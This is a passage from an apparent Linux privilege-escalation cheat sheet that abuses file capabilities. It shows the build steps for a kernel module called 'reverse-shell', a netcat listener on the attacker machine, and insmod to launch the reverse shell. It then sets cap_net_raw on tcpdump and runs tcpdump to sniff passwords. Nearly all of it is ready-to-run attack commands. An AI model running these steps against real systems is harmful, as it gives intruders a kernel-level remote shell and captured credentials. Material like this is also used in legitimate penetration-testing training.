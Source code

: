 ```bash
cp -a /lib/modules/$(uname -r)/ lib/modules/$(uname -r)
```

```bash
vim Makefile
```

- make sure you are using tab functionality instead of spaces after all and clean to avoid running into issues
```Makefile title:Makefile
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

```bash
make
```

- In your Attacker Machine
```bash
nc -nlvp 443
```

```bash
insmod reverse-shell.ko #Launch the reverse shell
```

## cap_net_raw

#### Miscofiguring

```bash
setcap cap_net_raw+ep /usr/sbin/tcpdump
```

#### Exploiting

- Maybe you can sniff the password
```bash
tcpdump -n tcp
```

## Reference


https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

https://tbhaxor.com/series/

https://www.armourinfosec.com/

https://chatgpt.com/

https://redfoxsec.com/blog/exploiting-linux-capabilities-capsysmodule-exploits/